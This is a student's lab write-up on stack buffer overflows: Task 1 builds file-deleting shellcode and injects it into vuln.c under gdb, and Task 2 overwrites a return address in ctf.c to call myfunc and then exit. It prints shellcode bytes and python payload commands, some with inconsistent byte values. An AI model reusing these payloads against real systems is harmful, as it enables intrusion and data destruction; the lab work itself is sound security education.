*Name: Dinh Thi Thanh Vy*
*ID: 22110093*

# Lab 2: 
---
## Task 1: Inject code to delete file
**Source code: .asm file**



**Run virtual environment by docker file**



**Run file asm and get the shellcode**

Run: `nasm -g -f elf file_del.asm`; `ld -m elf_i386 -o file_del file_del.o`

Get shellcode: `for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`



- We have the shellcode for file_del file as follows:

`\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`

--> We remove \xdummyfile because it is not meaningful hexadecimal code

**Stack Frame:**


- Shell code: `36 bytes`
- Return address: `4 bytes`
--> placement code: `32 bytes`
Here, we will use the vuln.c program to trigger a buffer overflow

**Connect to gdb**

- Break in this position to see the change
`b *0x0804846b`

- Run the program by using command:
>r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")


--> We observe that the first 3 bytes still correspond to the shellcode, but starting from the 4th byte, which corresponds to the newline character 0x0a, the `strcpy` function terminates the string, causing the interruption.  

Observing the ASCII table, we need to avoid the following characters: 
- `0x00` because it marks the end of a string. 
- `0x09` because it's the tab character and would split the argument. 
- `0x0a` because it's the newline character and would also terminate the string.

Additionally, `0x0a` has a decimal value of 10, and upon reviewing the assembly code, we find:


- Change file asm to this:


- Get the shellcode again, we get
`\xeb\x14\x31\xc0\xb0\x08\x04\x02\xbb\x7b\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe7\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\`



- For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to  prevent string termination and to identify the position of the return frame.

>r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x**0f**'+'a'*32+'\xff\xff\xff\xff')")



At this point, the program will likely report an error because it cannot find the address `0xffffffff`. 

- We need to set `0x0c` to `0x00` at the address `0xffffd66b` by using command: 
`set {unsigned char} 0xffffd66b = 0x00`

- we will replace the values of 0xffffffff with the address of the buffer, which is ffffd658, in the form of \x58\xd6\xff\xff. 

`set *0xffffd69c = 0xffffd658`

**The result will be:**



**Continue runing the program to test out**



- Dummyfile is still here. Look back at the assembly code!

`objdump -d file_del`



As we can see, the dummyfile is **start from** `0xffffd672` **not from** `0x080407a` in C program!
- We need to set 0xffffd651 to point at that using command: 

`set *0xffffd661 = 0xffffd672`



- continue running the program 



-->Dummyfile is deleted. We've done.

## Task 2: Conduct attack on ctf.c
**Source code:**



**Summarizing**

-->we need to find the address of the myfunc function and overwrite the Return Address of the vulnerable function's stack frame with this address:

`p=0x04081211; q=0x44644262`

`(buf[100] + ebp(4) + ReturnA(rewrite by the myfunc's address) + s + p + q)`

= `104(padding) + the myfunc's address + 4(padding) + p(value) + q(value)`
**Run the virtual environment by docker file**



**Debug ctf.c and create ctf.out file:**

`gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2`

**Get the myfunc's address by this command:**

`objdump -d ctf.out|grep myfunc`


--> So we obtain the address of the myfunc funtion: `0804851b`

**Connect gdb and run by this command:**

`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")`



--> It's not understand and stop running with the debug `0x61616161 in ??`

--> We need to set the exit function address in the Return Address of myfunc to return and continue running to get the value of variables p and q

**Get the exit's address**
`objdump -d ctf.out|grep exit`

--> So we obtain the address of the exit: `080483e0`

**Connect gdb and run again by this command:**
`r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'\xe0\x83\x08\x04'+'\x11\x12\x04\x08'+'\x62\x42\x64\x44')")`



--> We've done this lab
**Stack frame:**

